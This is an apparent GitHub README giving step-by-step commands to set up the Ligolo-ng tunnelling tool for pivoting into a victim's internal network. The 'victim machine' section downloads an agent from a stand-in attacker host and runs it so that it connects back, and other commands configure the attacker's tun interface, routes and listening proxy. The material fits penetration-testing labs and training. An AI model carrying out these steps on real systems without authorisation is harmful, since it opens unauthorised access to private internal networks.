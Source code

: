 [![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=30&duration=4000&pause=1&color=FFFFFF&multiline=true&width=485&height=80&lines=%E2%94%8C%E2%94%80%E2%94%80(ThisizAmen%E3%89%BFKaniber)-%5B%2F%5D;%E2%94%94%E2%94%80%23+Ligolo+Proxy+Setup)](https://git.io/typing-svg)  
----------------------------------------------------------------------------------------------------------------------------

First of all we need to download 2 executables;
1. Ligolo Agent
2. Ligolo Proxy

Proxy Download
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```
Agent Download
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
```

----------------------------------------------------------------------------------------------------------------------------

# In our Attack Machine

Change the user 'root' as your own user
```bash
sudo ip tuntap add user root mode tun ligolo
```

Next if you use any vpn address to connect with, delete the internal ip range which you want to connect
```bash
sudo ip route del 192.168.98.0/24 dev tun0
```

Setup the Ligolo tunnel and add the range which you want to connect
```bash
sudo ip link set ligolo up

sudo ip route add 192.168.98.0/24 dev ligolo
```

Start your Ligolo Proxy
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```

----------------------------------------------------------------------------------------------------------------------------

# In the Victim machine

Download the Ligolo agent to victim machine and start it (Do not forget to set up the python http.server in your attacker machine 'python3 -m http.server')
```bash
wget http://attacker_machine_ip_address:8000/agent /opt/

chmod +x agent

./agent -connect attacker_machine_ip_address -ignore-cert
```

----------------------------------------------------------------------------------------------------------------------------

# Again in our Attacker machine
In the ligolo menu
```bash
session

start
```

Now we can easily access to the internal network which we wanted to connect
